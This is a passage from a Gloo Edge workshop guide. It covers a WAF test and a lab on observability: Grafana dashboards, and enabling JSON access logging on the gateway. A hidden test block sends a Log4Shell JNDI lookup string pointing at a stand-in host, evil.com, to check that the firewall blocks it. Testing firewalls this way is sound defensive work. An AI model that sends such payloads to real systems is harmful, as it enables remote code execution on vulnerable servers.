To learn about the WAF capabilities of Gloo Edge check out "[Web Application Firewall - Gloo Edge Docs](https://docs.solo.io/gloo-edge/latest/guides/security/waf/)"

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-http');

describe("Request should be blocked for jndi header", () => {
  it('Request is blocked', () => { 
    helpers.checkURL({ host: "http://httpbin.solo.io", path: '/anything', headers: [{key: 'x-my-header', value: '${jndi:ldap://evil.com/x}'}], retCode: 403 });
  });
});

EOF
echo "executing test dist/workshop/build/templates/steps/web-application-firewall/tests/firewall-block-agent.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->


## Lab 9 - Observability <a name="Lab-9"></a>

## Metrics

Gloo Edge automatically generates a Grafana dashboard for whole-cluster stats (overall request timing, aggregated response codes, etc.), and dynamically generates a more-specific dashboard for each upstream that is tracked.

Let's run the following command to allow access to the Grafana UI:

```
kubectl port-forward -n gloo-system svc/glooe-grafana 8081:80 --address 0.0.0.0
```

You can now access the Grafana UI at http://localhost:8081 and log in with `admin/admin`.

You can take a look at the `Gloo -> Envoy Statistics` Dashboard that provides global statistics:


You can also see that Gloo is dynamically generating a Dashboard for each Upstream:


You can run the following command to see the default template used to generate these templates:

```
kubectl -n gloo-system get cm gloo-observability-config -o yaml
```

If you want to customize how these per-upstream dashboards look, you can provide your template to use by writing a Grafana dashboard JSON representation to that config map key. 

## Access Logging

Access logs are important to check if a system is behaving correctly and for debugging purposes. Log aggregators like Datadog and Splunk use agents deployed on the Kubernetes clusters to collect logs.  

Lets first enable access logging on the gateway: 

```bash
kubectl apply -f - <<EOF
apiVersion: gateway.solo.io/v1
kind: Gateway
metadata:
  labels:
    app: gloo
  name: gateway-proxy
  namespace: gloo-system
spec:
  bindAddress: '::'
  bindPort: 8080
  httpGateway: {}
  proxyNames:
  - gateway-proxy
  useProxyProto: false
  options:
    accessLoggingService:
      accessLog:
      - fileSink:
          jsonFormat:
            # HTTP method name
            httpMethod: '%REQ(:METHOD)%'
            # Protocol. Currently either HTTP/1.1 or HTTP/2.
            protocol: '%PROTOCOL%'
            # HTTP response code. Note that a response code of ‘0’ means that the server never sent the
            # beginning of a response. This generally means that the (downstream) client disconnected.
            responseCode: '%RESPONSE_CODE%'
            # Total duration in milliseconds of the request from the start time to the last byte out
            clientDuration: '%DURATION%'
            # Total duration in milliseconds of the request from the start time to the first byte read from the upstream host
            targetDuration: '%RESPONSE_DURATION%'
            # Value of the "x-envoy-original-path" header (falls back to "path" header if not present)
            path: '%REQ(X-ENVOY-ORIGINAL-PATH?:PATH)%'
            # Upstream cluster to which the upstream host belongs to
            upstreamName: '%UPSTREAM_CLUSTER%'
            # Request start time including milliseconds.
            systemTime: '%START_TIME%'
            # Unique tracking ID
            requestId: '%REQ(X-REQUEST-ID)%'
            # Response flags; will contain RL if the request was rate-limited
            responseFlags: '%RESPONSE_FLAGS%'
            # We rate-limit on the x-type header
            messageType: '%REQ(x-type)%'
            # We rate-limit on the x-number header
            number: '%REQ(x-number)%'
          path: /dev/stdout
EOF
```

NOTE:  You can safely ignore the following warning when you run the above command:

```
Warning: kubectl apply should be used on resource created by either kubectl create --save-config or kubectl apply
```

Refresh your browser a couple of times to generate some traffic.
The following command opens the app in a new browser window:

```
/opt/google/chrome/chrome http://echo.solo.io
```

Check the access logs running the following command:

```
kubectl logs -n gloo-system deployment/gateway-proxy | grep '^{' | jq
```

If you refresh the browser to send additional requests, then you will see both `200 OK` responses in the access logs, as in the example below.

```
{
  "messageType": null,
  "requestId": "06c54299-de6b-463e-8035-aebd3e530cb5",
  "httpMethod": "GET",
  "systemTime": "2020-10-22T21:38:18.316Z",
  "path": "/productpage",
  "targetDuration": 31,
  "protocol": "HTTP/2",
  "responseFlags": "-",
  "number": null,
  "clientDuration": 31,
  "upstreamName": "httpbin-httpbin-8000_gloo-system",
  "responseCode": 200
}
```

These logs can now be collected by the Log aggregator agents and potentially forwarded to your favorite enterprise logging service. 


